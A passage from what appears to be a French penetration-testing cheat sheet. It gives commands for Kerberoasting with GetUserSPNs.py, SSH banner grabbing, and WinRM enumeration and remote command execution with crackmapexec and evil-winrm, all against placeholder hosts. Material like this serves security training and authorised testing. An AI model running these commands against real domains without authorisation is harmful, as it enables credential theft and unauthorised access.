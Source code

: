 **But** : Extraction des tickets de service pour Kerberoasting.

**Exemple de commande** :
```bash
# Extraction basique avec identifiants
GetUserSPNs.py exemple.com/utilisateur:mot_de_passe -outputfile spn-hashes.txt

# Extraction et demande immédiate de TGS
GetUserSPNs.py exemple.com/utilisateur:mot_de_passe -request -outputfile spn-hashes.txt
```

**Atouts** : Exploitation d'une fonctionnalité légitime de Kerberos, obtention de hachages potentiellement privilégiés.

**Limites** : Nécessite des identifiants valides dans le domaine, génère des événements d'authentification.

**Meilleur contexte** : Élévation de privilèges après obtention d'identifiants initiaux dans un domaine Active Directory.

### Services exposés

L'énumération des services exposés permet d'identifier des vecteurs d'attaque potentiels et des informations sur l'infrastructure.

#### Bannières SSH

**But** : Récupération d'informations à partir des bannières SSH.

**Exemple de commande** :
```bash
# Connexion manuelle
nc -nv 10.10.10.10 22

# Utilisation de nmap
nmap -sV -p 22 10.10.10.10

# Utilisation de ssh-audit
ssh-audit 10.10.10.10
```

**Atouts** : Technique passive, révèle souvent la version exacte et la configuration.

**Limites** : Les bannières peuvent être modifiées ou désactivées.

**Meilleur contexte** : Reconnaissance initiale, identification de versions potentiellement vulnérables.

#### WinRM (Windows Remote Management)

**But** : Énumération et exploitation du service de gestion à distance Windows.

**Exemple de commande** :
```bash
# Vérification de l'accessibilité avec crackmapexec
crackmapexec winrm 10.10.10.10

# Test d'identifiants
crackmapexec winrm 10.10.10.10 -u utilisateur -p mot_de_passe

# Exécution de commandes via evil-winrm
evil-winrm -i 10.10.10.10 -u utilisateur -p mot_de_passe
```
